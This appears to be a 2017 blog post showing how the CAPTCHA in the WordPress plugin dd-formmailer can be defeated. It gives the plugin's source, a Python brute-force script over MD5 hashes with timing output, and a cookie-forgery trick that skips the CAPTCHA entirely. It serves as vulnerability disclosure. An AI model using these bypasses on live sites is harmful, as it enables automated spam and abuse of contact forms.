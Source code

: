 +++
type = "post"
date = "2017-02-18T10:55:59-05:00"
draft = false
title = "Defeating dd-formmailer's Weak CAPTCHA"
description = "How I broke a Wordpress plugin's weak CAPTCHA"
hasmath = true
+++

Yesterday, I visited a website that uses [dd-formmailer][1], a Wordpress
plugin that provides a form for sending an email, complete with a
CAPTCHA intended to prevent automated abuse. Here's a screenshot:

![A screenshot of the dd-formmailer form][i1]

I was bored and curious, so I looked at the CAPTCHA image and noticed it
was always served from the same path:
`/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1`. How, I
wondered, does the script handling form submissions know if the user
entered the right CAPTCHA? A cookie?

    $ curl -si http://[snip].com/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1 | head
    HTTP/1.1 200 OK
    ...
    Set-Cookie: ddfmcode=bacb87c6f4ad4b08090e838d074bc18f; expires=Sat, 18-Feb-2017 17:47:30 GMT; path=/; domain=.[snip].com
    ...

A cookie! With what, the md5 of the correct answer?

    $ echo -n 3649B | md5sum
    bacb87c6f4ad4b08090e838d074bc18f  -

Yes!

As you can probably tell already, this is not the best approach.

# Pass 1

Looking at [the source][2],

    srand((double)microtime()*1000000); 
    $ddfmcode = substr(strtoupper(md5(rand(0, 999999999))), 2, 5); 
    $ddfmcode = str_replace("O", "A", $ddfmcode); // for clarity
    $ddfmcode = str_replace("0", "B", $ddfmcode);
    setcookie("ddfmcode", md5($ddfmcode), time()+3600, '/', '.' . $this_domain); 

you can see that CAPTCHA codes generated are 5-character hex strings
without 0s, leaving only $15^5 = 759,375$ possibilities. (Contrary to the
third line, hex strings don't contain the letter O 😄). We can brute
force all of these in less than two seconds with a simple Python script:

    #!/usr/bin/env python3
    
    from hashlib import md5
    
    for i in range(16**5):
        # Skip numbers with a 0 in their 5-char hex form
        if i >> 16 == 0 or \
           i >> 12 & 0xF == 0 or \
           i >> 8 & 0xF == 0 or \
           i >> 4 & 0xF == 0 or \
           i & 0xF == 0:
            continue
    
        captcha = '{:05X}'.format(i)
        hashed = md5(captcha.encode()).hexdigest()
        print('{}\t{}'.format(hashed, captcha))

and

    $ time ./bruteforce.py >hashes

    real    0m1.870s
    user    0m1.820s
    sys     0m0.052s

Then, when the server gives us a hash in the cookie, we can easily look
it up:

    $ time grep bacb87c6f4ad4b08090e838d074bc18f hashes
    bacb87c6f4ad4b08090e838d074bc18f        3649B
    
    real    0m0.016s
    user    0m0.008s
    sys     0m0.004s

But it gets better.

# Pass 2

While writing the last section, I realized: what stops clients from
sending a cookie with their own hash? The answer is nothing.

For example, I can send a `Cookie:
ddfmcode=b252d1fe1c0c16d001027c2fce9b6529` header (the md5 of "BANANA")
and then "BANANA" in the `fm_verify` form field and successfully send
the email. You don't need to request the CAPTCHA image at all!

Here's the relevant section of code:

    $t = ddfm_stripslashes($form_input['fm_verify']);
    ...
    } else if ($_COOKIE["ddfmcode"] != md5(strtoupper($t))) { 
    
    	$errors[] = DDFM_INVALIDVER;
    
    } 

# Conclusion

Avoid Wordpress plugins last updated in 2009.

[1]: http://www.dagondesign.com/articles/secure-form-mailer-plugin-for-wordpress/
[2]: http://www.dagondesign.com/articles/secure-php-form-mailer-script/#download
[i1]: /blog/img/defeating/1.png
